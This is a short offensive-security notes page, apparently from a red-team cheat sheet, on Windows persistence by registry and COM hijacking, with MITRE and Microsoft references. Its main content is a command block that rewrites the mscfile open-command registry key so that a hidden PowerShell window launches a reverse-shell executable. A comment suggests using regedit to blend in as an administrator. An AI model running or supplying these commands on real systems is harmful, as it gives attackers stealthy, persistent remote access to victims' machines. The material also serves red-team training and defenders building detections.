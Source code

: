 # Windows Persistence COM Object Hijacking

[Microsoft learn - COM](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal) states: *"The Microsoft Component Object Model (COM) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE (compound documents), ActiveX (Internet-enabled components), as well as others.


[MITRE T1546](https://attack.mitre.org/techniques/T1546/015/)

```powershell
# Or use regedit to look like a SysAdmin
set REG_KEY=HKEY_LOCAL_MACHINE\SOFTWARE\Classes\mscfile\shell\open\command
set CMD="powershell -windowstyle hidden C:\<reverse-shell.exe> <reverse-shell-commands>"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f 
reg add %REG_KEY% /d %CMD% /f
reg query %REG_KEY%
```


Registry Keys:
- `HKEY_CLASSES_ROOT\CLSID`
- `HKEY_CLASSES_ROOT\WOW6432Node\CLSID`
## References

[iredteam COM Object Hijacking](https://www.ired.team/offensive-security/persistence/t1122-com-hijacking)
[Microsoft learn - COM](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal) 
[THM APT 28 Room](https://tryhackme.com/room/apt28inceptiontheory)